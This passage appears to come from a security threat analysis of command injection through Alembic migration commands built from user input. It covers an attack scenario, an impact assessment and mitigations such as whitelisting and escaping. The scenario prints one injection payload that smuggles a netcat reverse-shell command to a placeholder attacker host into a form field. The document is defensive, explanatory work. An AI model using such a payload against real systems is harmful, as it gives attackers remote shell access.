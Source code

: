 1. An attacker identifies a web form field labeled "Migration Name".
2. The attacker crafts a malicious input string like `head; netcat -e /bin/sh attacker_ip attacker_port`.
3. The application, without proper sanitization, incorporates this input into the Alembic command.
4. The server executes the command, initiating a reverse shell connection to the attacker's machine, granting them remote access.

#### 4.3 Impact Assessment

The impact of a successful indirect command injection via Alembic is **critical**, as highlighted in the initial description. It can lead to:

* **Full Server Compromise:** Attackers can execute arbitrary commands with the privileges of the user running the Alembic process. This allows them to gain complete control over the server.
* **Data Breach:**  Attackers can access sensitive data stored on the server, including database credentials, application secrets, and user data.
* **Service Disruption:**  Malicious commands can be used to disrupt the application's functionality, leading to denial of service.
* **Data Manipulation and Corruption:** Attackers can modify or delete critical data within the database or file system.
* **Lateral Movement:**  A compromised server can be used as a stepping stone to attack other systems within the network.
* **Reputational Damage:**  A successful attack can severely damage the organization's reputation and customer trust.

#### 4.4 Mitigation Strategies (Detailed Analysis and Expansion)

The provided mitigation strategies are crucial. Let's delve deeper into each:

* **Avoid Constructing Alembic Commands Dynamically Using User-Supplied Input:** This is the **most effective** mitigation. Whenever possible, predefine the available Alembic commands and allow users to select from a limited, safe set of options. Instead of directly using user input, map it to predefined actions or parameters.

    * **Example:** Instead of `alembic upgrade <user_input>`, offer options like "Upgrade to Head", "Downgrade to Base", or specific revision numbers. The application then constructs the command internally based on the user's selection.

* **If Dynamic Command Construction is Necessary, Sanitize and Validate User Input Rigorously:**  If dynamic construction is unavoidable, implement robust input validation and sanitization techniques.

    * **Input Validation:**
        * **Whitelisting:** Define a strict set of allowed characters, patterns, or values. Only accept input that conforms to this whitelist. This is generally more secure than blacklisting.
        * **Regular Expressions:** Use regular expressions to enforce specific formats for user input, ensuring it doesn't contain potentially harmful characters or sequences.
        * **Data Type Validation:** Ensure the input is of the expected data type (e.g., integer for revision numbers).
    * **Input Sanitization:**
        * **Escaping Special Characters:**  Escape characters that have special meaning in the shell (e.g., `;`, `|`, `&`, `$`, backticks). However, relying solely on escaping can be error-prone.
        * **Encoding:** Encode user input appropriately to prevent interpretation as shell commands.
